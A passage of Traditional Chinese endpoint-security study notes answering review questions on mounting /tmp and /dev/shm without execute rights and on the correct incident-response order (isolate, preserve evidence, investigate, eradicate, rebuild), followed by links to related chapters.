> 容器逃逸與供應鏈攻擊、
> 檔案伺服器可能**存放並轉發 Windows 惡意檔案**。
> **該用的工具**：**Wazuh**（HIDS 全套）、**auditd**（核心層級稽核）、
> **AIDE**（檔案完整性）、ClamAV、rkhunter、**Falco**（容器）、
> SELinux/AppArmor。
>
> **Q9.** 因為**正常的軟體不會從這些目錄執行** ——
> 它們是「任何人可寫」的暫存目錄，
> 而攻擊者常把 payload 下載到這裡再執行。
> **更好的做法**：直接在 `/etc/fstab` 中用 **`noexec,nosuid,nodev`**
> 掛載 `/tmp` 與 `/dev/shm`，**讓它們根本不能執行程式**。
> 這是 TWGCB 與 CIS 基準的要求項目。
>
> **Q10.** 因為急著重灌會導致：
> ①**證據全部消失**，永遠不知道怎麼被入侵的；
> ②不知道攻擊者**還去了哪些機器**；
> ③不知道**有沒有資料外洩**（法遵通報需要這個資訊）；
> ④**同樣的漏洞還在，很快會再被入侵一次**。
> **正確順序**：
> ①**隔離**（切斷網路，但**不要關機** —— 記憶體中的證據會消失）→
> ②**保全證據**（記憶體傾印、磁碟映像、EDR 資料）→
> ③**調查**（怎麼進來的？做了什麼？還有哪裡受影響？）→
> ④**根除**（修補根因）→ ⑤**才重建**。

---

## 延伸閱讀

- [[01-資安全景圖與縱深防禦]] — 端點在整體架構中的位置
- [[03-入侵偵測與防禦IDS-IPS]] — HIDS 與 EDR 的關係
- [[09-日誌集中與SIEM]] — EDR 告警要送到哪裡
- [[06-郵件與網頁閘道防護]] — 攔截「遞送」階段
- [[03-弱點與修補管理流程]] — **端點防護的基礎**（進階）
- [[04-資安事件應變流程]] — 發現入侵後怎麼做（進階）
- [[08-系統強化與稽核]] — auditd 與系統加固（進階）
